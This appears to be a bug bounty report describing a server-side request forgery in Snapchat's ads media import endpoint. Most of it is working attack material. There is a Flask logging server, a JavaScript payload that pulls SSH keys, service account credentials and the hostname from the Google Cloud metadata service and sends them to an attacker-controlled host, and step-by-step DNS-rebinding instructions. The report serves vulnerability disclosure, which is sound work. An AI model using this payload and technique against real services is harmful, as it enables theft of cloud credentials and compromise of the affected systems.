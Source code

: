 ## Server-Side Request Forgery using Javascript allows to exfill data from Google Metadata


1. Login to https://business.snapchat.com/
2. Go to creative library -> New Creative
3. Under "Topsnap Media", click on "Create"
4. Click on any of the templates and load it
5. Click on one of the images in the template -> Replace -> Import
6. This is where the SSRF exists. Where you fetch images for your creative (/api/v1/media/import)
7. Run this somewhere publicly accessible:

On the import section we are inserting the payload of our domain 

```
from flask import Flask, request
from flask_cors import CORS
from time import sleep

app = Flask(__name__)
CORS(app)

import logging
log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

@app.route("/")
def helloWorld():
        sleep(3)
        return 'hi!'

@app.route('/log')
def log():
        print request.args['msg']
        return ''

app.run(host='0.0.0.0')
```

Put this on another domain you control. Change demon.██████████ to the host where you put this html file, and change ssh.████ to the host you're running the timing script (above) on.


```
<script>
var logTimeServer = 'ssh.█████';
var attackServer = 'demon.██████';

function log(data) {
    var sreq = new XMLHttpRequest();
    sreq.open('GET', 'http://' + logTimeServer + ':5000/log?msg=' + encodeURI(data), true);
    sreq.send();
}

function get(url) {
    try {
        var req = new XMLHttpRequest();
        req.open('GET', url, false);
        req.setRequestHeader('X-Google-Metadata-Request', 'True');
        req.send(null);
        if(req.status == 200)
            return req.responseText;
        else
            return '[failed status=' + req.status + ']';
    } catch(err) {
        log(err);
    }
    return null;
}

log('Triggered in ' + window.location.href);

for(var i = 0; i < 60; ++i) {
    log('Loop ' + i);
    var req = new XMLHttpRequest();
    req.open('GET', 'http://' + logTimeServer + ':5000/', false);
    req.send();
}
log('SSH Keys: ' + get('http://' + attackServer + '/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json'));
log('Service Accounts: ' + get('http://' + attackServer + '/computeMetadata/v1/instance/service-accounts/?recursive=true&alt=json'));
log('Hostname: ' + get('http://' + attackServer + '/computeMetadata/v1/instance/hostname'));
</script>
```


Now hit /api/v1/media/import on ads.snapchat.com, with the URL parameter http://demon.███████/ssrf.html (or wherever you run it)
Immediately after requesting ssrf.html, switch the DNS on the domain to point to 169.254.169.254, and wait 3 minutes. ssrf.html needs to be running on port 80, that way when the DNS changes, it starts talking to the metadata service.

